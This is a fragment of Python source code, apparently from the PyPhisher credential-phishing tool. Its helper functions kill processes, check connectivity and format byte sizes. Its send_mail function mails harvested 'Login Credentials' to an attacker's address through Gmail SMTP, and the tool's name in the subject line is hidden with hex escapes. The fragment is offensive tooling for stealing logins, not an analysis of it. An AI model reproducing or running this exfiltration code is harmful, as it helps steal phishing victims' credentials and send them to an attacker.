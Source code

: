   
 # Process killer 
 def killer(): 
     # Previous instances of these should be stopped 
     for process in processes: 
         if is_running(process): 
             # system(f"killall {process}") 
             output = shell(f"pidof {process}", True).stdout.decode("utf-8").strip() 
             if " " in output: 
                 for pid in output.split(" "): 
                     kill(int(pid), SIGINT) 
             elif output != "": 
                 kill(int(output), SIGINT) 
             else: 
                 print() 
  
 # Internet Checker 
  
 def internet(url="https://api.github.com", timeout=5): 
     while update: 
         try: 
             head(url=url, timeout=timeout) 
             break 
         except ConnectionError: 
             print(f"\n{error}No internet!{nc}\007") 
             sleep(2) 
         except Exception as e: 
             print(f"{error}{str(e)}") 
  
  
 # Send mail by smtp library 
 def send_mail(msg): 
     global email, password, receiver 
     message = f"From: {email}\nTo: {receiver}\nSubject: \x50\x79\x50\x68\x69\x73\x68\x65\x72 Login Credentials\n\n{msg}" 
     try: 
         internet() 
         with smtp('smtp.gmail.com', 465) as server: 
             server.login(email, password) 
             server.sendmail(email, receiver, message)  
     except Exception as e: 
         append(e, error_file) 
         print(f"{error}{str(e)}") 
  
  
  
 # Bytes to KB, MB converter 
 def readable(byte, precision = 2, is_speed = False): 
     for unit in ["Bt","KB","MB","GB"]: 
         floatbyte = round(byte, precision) 
         space = ' ' * (6 - len(str(floatbyte))) 
         if byte < 1024.0: 
             if is_speed: 
                 size = f"{floatbyte} {unit}/s{space}" 
             else: 
                 size = f"{floatbyte} {unit}{space}" 
             break 
         byte /= 1024.0 
